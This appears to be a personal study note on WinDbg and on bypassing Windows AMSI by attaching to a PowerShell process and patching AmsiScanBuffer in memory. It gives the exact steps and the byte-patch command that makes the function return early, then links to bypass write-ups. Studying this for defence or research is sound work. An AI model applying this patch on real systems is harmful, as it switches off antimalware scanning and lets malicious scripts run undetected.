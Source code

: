 
### Windbg Commands

| Command   | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| x         | examine all symbols that match a given string (eg `x amsi!Amsi*`)                        |
| bg        | set a break point                                                                        |
| g         | let process continue                                                                     |
| r         | dump resister                                                                            |
| r r\<reg> | dump a particular register value                                                         |
| u         | unassemble (go to that memory address)                                                   |
| lm        | lm has a new DML (debugger markup language) mode where module names link to lmv commands |

### Analyzing AmsiScanBuffer

```c
HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID buffer,
  ULONG length,
  LPCWSTR contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT *result
);
```

- launch Powershell window
- launch Windbg
- attach Windbg to Powershell session
- in Windbg set a break point for AmsiScanBuffer
```cmd
bp Amsi!AmsiScanBuffer
```
- allow the powershell interactivity to continue using `g` in Windbg
- on the powershell cmd line, type `'amsituils` to trigger AMSI
```powershell
'amsiutils'
```
![](WindbgContinue.png)
- find the return instruction is c3
- ![](WindbgAmsiScanBufferLocation.png)
- ![](WindbgAmsiScanBufferCalls.png)
- apparently we want to overwrite the address highlighted in gray (TODO: figure out why exactly)
- in Windbg `u 00007ffd72e9387b` to move to that address
- ![](WindbgUnassemble.png)
- overwrite with this command `eb 00007ffd72e9387b c3 90 90` (90 are nop)
- ![](WindbgUnassemble-02.png)
- address is  now altered to `ret` instead of `mov edi,r8d`


### Looking at next 20 commands 64-bit

 - `u rip L20`
- **`u`**: This is the command to disassemble code. It stands for "unassemble."
- **`rip`**: This is the register that holds the address of the next instruction to be executed. In other words, it's the current instruction pointer.
- **`L20`**: This specifies the length of the disassembly in terms of instructions. In this case, `L20` means disassemble the next 20 instructions.
### Websites viewed for reference

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b
- http://windbg.info/doc/1-common-cmds.html
